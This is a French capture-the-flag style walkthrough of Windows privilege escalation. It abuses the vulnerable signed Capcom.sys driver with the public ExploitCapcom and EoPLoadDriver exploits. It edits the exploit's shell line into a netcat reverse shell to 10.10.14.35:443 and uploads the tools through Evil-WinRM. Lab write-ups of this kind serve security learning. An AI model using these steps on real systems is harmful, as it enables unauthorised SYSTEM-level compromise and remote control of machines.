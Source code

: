 Utilisons un driver bien connu pour être vulnérable et signé ! **Capcom.sys**. Il peut être téléchargé ici :

https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys

On aura besoin de compiler ces deux exploits.

- https://github.com/tandasat/ExploitCapcom

- https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp

## ExploitCapcom.cpp

Je modifie la ligne 292 du POC ExploitCapcom.cpp [^1] pour obtenir un reverse shell avec un netcat. Je m'apercevrai plus tard que netcat ne fonctionnera pas. J'utiliserai alors un meterpreter. J'y reviendrai.

Modifier :

```bash
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
```

en :

```bash
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\test\\nc.exe -nv 10.10.14.35 443");
```

Et je le compile ExploitCapcom.cpp avec VS2015.

## EoPLoadDriver.cpp

Je compile également : EoPLoadDriver.cpp [^2]. Il faut passer par un nouveau projet `Console App` et importer le code c++.

1. New > Project > Visual C++ > Win32 > Console App
2. Source File > Add > Existing Item
3. Barre d'outils, choisir Release / x64
4. F5 pour compiler

## Préparation

Grâce à mon shell Evil-WinRM, j'upload nc.exe dans `c:\test`.

```bash
*Evil-WinRM* PS C:\test> upload /usr/share/windows-resources/binaries/nc.exe
```

J'upload le driver et les deux codes compilés.

```bash
*Evil-WinRM* PS C:\test> upload Capcom.sys
*Evil-WinRM* PS C:\test> upload ExploitCapcom.exe
*Evil-WinRM* PS C:\test> upload eoploaddriver.exe
```


[^2]: https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp
[^1]: https://github.com/tandasat/ExploitCapcom